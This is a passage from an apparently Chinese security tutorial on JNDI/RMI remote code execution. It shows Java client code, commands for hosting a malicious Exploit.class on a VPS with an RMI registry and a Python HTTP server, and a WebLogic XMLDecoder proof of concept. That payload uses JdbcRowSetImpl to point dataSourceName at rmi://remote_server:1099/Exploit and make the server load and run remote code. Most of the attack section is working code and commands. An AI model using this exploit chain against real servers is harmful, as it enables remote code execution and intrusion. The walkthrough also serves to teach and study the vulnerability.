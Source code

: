 ```
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        Context context = new InitialContext(env);
//        Object object1 = context.lookup("rmi://remote_server:1099/Exploit");
        Object object = context.lookup("Exploit");//ok
//        System.out.println("Object:" + object);
    }
    public static void main(String[] argv) throws NamingException {
        testRmi();
    }
}
```
首先测试本地JNDI服务，先运行`JNDIServer`，可以看到在本地监听了1099端口

![1099](https://ob5vt1k7f.qnssl.com/OLArZ)

然后运行客户端`TestJNDI`，可以看到VPS收到了一次请求，访问了`Exploit.class`，接着执行了calc:

![calc](https://ob5vt1k7f.qnssl.com/e5ntY)

测试成功

整个流程是这样的：`lookup`方法向JNDI服务请求`Exploit`，JNDI绑定了一个`referenceWrapper`，而`JNDIReferences`加载了外部对象(远程)，外部对象包含攻击载荷，本地反序列化执行

那我们可不可以在远程服务器开启一个JNDI服务和http服务，使应用通过`rmi://remote_server:1099/Exploit`远程调用呢？

### 0x03 远程利用
我们把项目打成jar包上传到VPS上，然后开启一个JNDI服务和http服务

> 开启JNDI服务

```
/usr/lib/jvm/jdk1.6.0_45/bin/java -jar -Djava.rmi.server.hostname="192.168.1.2" jnditest.jar
```
**注意**
如果此处不指定`rmi.server.hostname`的话会出现错误`Root exception is java.rmi.ConnectException: Connection refused to host: 127.0.0.1`

> 开启http服务

```
python -m SimpleHTTPServer 80
```

然后修改JNDI客户端部分，让它访问rmi远程服务
```
Object object = context.lookup("rmi://remote_server/Exploit");
```
可以看到执行成功

![calc2](https://ob5vt1k7f.qnssl.com/fcbQR)


### 0x04 测试Weblogic
下面我们测试一下在实战中能否利用rmi远程代码执行
PoC
```
<java version="1.6.0_45" class="java.beans.XMLDecoder">
    <void class="com.sun.rowset.JdbcRowSetImpl">
        <void property="dataSourceName">
            <string>rmi://remote_server:1099/Exploit</string>
        </void>
        <void property="autoCommit">
            <boolean>true</boolean>
        </void>
    </void>
</java>
```